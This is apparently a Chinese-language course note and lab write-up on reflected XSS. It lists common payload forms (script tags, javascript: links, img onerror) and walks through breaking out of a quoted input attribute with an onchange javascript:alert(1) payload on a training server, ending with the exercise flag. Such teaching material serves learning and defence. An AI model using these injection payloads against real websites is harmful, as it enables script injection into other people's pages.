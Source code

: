 ```yaml
---
date: "2020-12-18T00:00:00Z"
description: 反射性 XSS
keywords: XSS
tags:
- XSS
title: 反射性 XSS
---
```


# 反射性 XSS 利用方式

```
			Js的标识：弹窗：alert(1)
				标签风格：<script>alert(1)</script>
				伪协议触发：<a href=javascript:alert(1)>1</a>	(伪协议:) http:// ftp:// 小众协议：php:// 
				事件方法：<img src=1 onerror=alert(1) />
				(触发器：事件) 在标签里面on开头的东西很高概率是事件
```

## 课后习题

> http://59.63.200.79:8002/xss/index.php


**1. 确认输出**

在 input 框中随意输入字符， 使用  **查看源代码** ， 寻找可利用位置。

![](https://nc0.cdn.zkaq.cn/md/8461/fb909d7a3db8028c64d1fcdef3a0be2c_49556.png)

可以看到 ， 在 12行 ， 14 行出现了 输入的 123。 因此可以在这两点上测试利用。


**2. 使用 `标签风格闭合` 构建 js弹窗**

```html
' onchange="<script>alert(1)</script"> >
```

```html
<input name=keyword  value='123' onchange=&lt;script&gt;alert(1)&lt;/script&gt; &gt;'>
```

可以看到 value 的单引号已经被闭合， 并且创建了 `onchange` 事件。 但是由于 `<>` 被编码， 因此没有实现弹窗所需要的 js 代码。

![](https://nc0.cdn.zkaq.cn/md/8461/a8b5a48f403de8a98eebb6792b24f678_55770.png)


**3.  使用 `伪代码方式构建`  js 弹窗***

```html
123' onchange=javascript:alert(1) > //
```

```html
<input name=keyword  value='123' onchange=javascript:alert(1) &gt; // '>

```

从源代码可以看到， 已经通过 **onchange** 实现了 **js 伪代码** 的弹窗触发器。

条件是 ： input 框中的内容发生**变更**

![](https://nc0.cdn.zkaq.cn/md/8461/a09fa2130e969c16e198ab1b9f1273f3_36248.png)


**4. 触发**

随便修改输入框中的内容， 将鼠标移到框外任意地方点击。

alert 弹窗出现。 

![](https://nc0.cdn.zkaq.cn/md/8461/c94619f30a742363a05453ddeface9de_71733.png)

> flag: flag{zkaq-xssgood-Q0OA}
